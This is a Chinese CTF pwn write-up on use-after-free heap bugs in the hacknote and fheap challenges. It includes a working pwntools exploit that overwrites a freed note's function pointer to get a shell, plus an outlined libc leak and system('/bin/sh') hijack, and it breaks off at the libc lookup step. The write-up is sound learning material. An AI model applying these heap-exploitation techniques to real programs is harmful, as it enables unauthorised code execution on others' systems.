# CTF-PWN-堆-【use after free-1】


## use after free
当一个 chunk 被释放后，其对应的指针没有被置为 NULL，就可能出现各种问题
## free 之后的几种情况

 - 内存块被释放后，其对应的指针被设置为 NULL，再次使用时程序自然会崩溃。
- 内存块被释放后，其对应的指针没有被设置为 NULL，在它下一次被使用之前，没有代码对这块内存进行修改，那么程序很有可能可以正常运转。
- 内存块被释放后，其对应的指针没有被设置为 NULL，但在它下一次被使用之前，有代码对这块内存进行了修改，那么当程序再次使用这块内存时，就很有可能出现奇怪的问题。

### hacknote libc 2.23  32 位
#### 检查
没有开启 PIE，意味着函数加载到内存后地址是固定的


#### main 函数
简单的输入，根据输入的数字执行不同的功能

#### menu() 函数

#### add_note 函数
notelist 数组存放 malloc 分配的 8 字节节点指针，每个节点指针有两个元素，一个是 put 函数，另一个是指向 malloc 分配的节点内容的指针，其大小由输入决定


#### del_note
删除节点：先输入索引，然后 free 掉节点以及节点的内容指针。这里存在 use after free 漏洞。
也就是说，可以再次申请到这个堆块，修改原来的内容，并且仍然可以使用原内容对应元素的功能

#### print_note
打印节点内容
先输入索引，然后根据索引调用节点中的输出函数，参数为节点指针

#### put 
这里 a1 是节点指针，a1+4 是对应内容指针所在的位置。所以这里就是输出内容

#### magic
要调用的目标函数



### 思路
1. 先创建两个堆块，然后 free 掉（对大小有要求）
2. 再创建一个堆块，使我们可以修改原来堆块的内容
3. 最后由于原来的堆块指针仍然存在，再次利用原来堆块的内容
（例如某个输入会利用原堆块中的某个数据（函数地址）跳转到该位置调用函数，通过上述操作将该数据覆盖为 system 的地址，由于原堆块指针在 free 后没有置为 NULL，输入调用原堆块指针函数的选项即可获得 shell）

两次 addnote 之后

两次 delnote 之后

再一次 addnote 之后

此时第一个节点的函数元素为 0x8048986，原来是 put 的地址，现在是 magic 的地址

然后 printnote



### exp
```python
from pwn import *
context(arch="amd64",os="linux",log_level="debug")
s=process("./hacknote")
gdb.attach(s,"b main")

def addnote(size,content):
    s.sendlineafter(b"Your choice :",b"1")
    s.sendlineafter(b"Note size :",str(size))
    s.sendlineafter(b"Content :",content)

def delnote(index):
    s.sendlineafter(b"Your choice :",b"2")
    s.sendlineafter(b"Index :",str(index))


def printnote(index):
    s.sendlineafter(b"Your choice :",b"3")
    s.sendlineafter(b"Index :",str(index))

addnote(0x10,b"abcd")  
addnote(0x10,b"abcd")

delnote(0)
delnote(1)

magic = 0x08048986
print(p32(magic))
addnote(8,p32(magic))

printnote(0)


s.interactive()
```


# CTF-PWN-Heap-【use after free-2】


### fheap libc 2.23  64 位
#### 检查


#### main
多层 while，其实和选择菜单差不多

#### create
分配一个 0x20 的堆块，并把指针赋给 ptr
先输入大小
再输入到 buf 中
然后检查 buf 的实际长度；如果大于 15，则用 malloc 按实际长度分配一个堆块，其指针为 dest，将 buf 的内容拷贝进去，同时更新 ptr 的内容：前八个字节为 dest 的值，起始地址偏移 24 字节处赋值为函数地址。随后对相应函数调用两次 free：先 free 存放内容的指针，再 free 原来的 ptr 指针
如果小于 15，则直接把 buf 的内容赋值到 ptr 开头，起始地址偏移 24 字节处赋值为函数地址；随后对相应函数调用一次 free
最后遍历 unk_2020c0 数组；每个数组元素 16 字节，前八个字节赋值为 1，后八个字节赋值为 ptr


#### delete
先按索引检查 unk_2020c0 偏移 24 字节处是否有值；如果有，说明这个字符串存在。输入 yes 之后，调用 ptr 中的 free 函数，参数为 ptr，最后把该索引处 unk_2020c0 的前八个字节置为 0
### 思路
仍然存在 use after free 漏洞，使得我们在调用 create 时可以修改原本存放字符串相关信息的堆块中所保存的函数指针的内容

先调用两次 create；此时只有两个堆块，都是 0x20，都存放着字符串相关信息（delete 时调用的函数指针）。然后申请一个大小为 0x20 的字符串；此时可以利用格式化字符串泄露某个函数的地址，由此得到 libc 基址，进而得到 system 的地址
然后 delete 掉刚申请的字符串，再次 create；此时可以重写最初 id 为 1 的那个堆块内容中的函数指针，将其设为 system 的地址，而刚刚创建的堆内容就是 /bin/sh。再次调用 delete(1) 即可成功拿到 shell

### 覆盖目标函数指针
选择 printf 的函数指针
函数被加载到内存时，地址随机化不会影响低 12 位，因此此时有可能成功覆盖目标函数



### printf 内部
test 指令（按位与）检查该值是否不为零；如果是，则执行 movaps

> movaps 指令所处理的内存位置必须按 16 字节对齐

如果不为零，则不跳转，movaps 会被执行；满足 16 字节对齐比较麻烦
所以我们先执行已有的把 ax 赋值为零的指令


### 调用被覆盖的函数之前


> EAX 和 AX 并不是独立的：EAX 是 32 位寄存器，AX 是 EAX 的低 16 位。
例如
mov eax, 12345678h
那么 AX 就是 eax 的低 16 位，即 5678h。
而如果此时
mov ax，3344h
那么 eax 的值就变成 12343344h，所以对 ax 赋值会影响 eax。
同理，AH 是 ax 的高 8 位，AL 是 ax 的低 8 位，也就是说 ah 为 33h，al 为 44h。

跳转之后，先执行 mov eax,0


### 调用 printf 时的栈

栈上第 172 项是 libc_start_main+240



### 实际到达的函数
所以这里仍然需要输入；要直接跳过这一处，只需输入一次 -1

###  查找当前版本对应的 libc_start_main 和 system
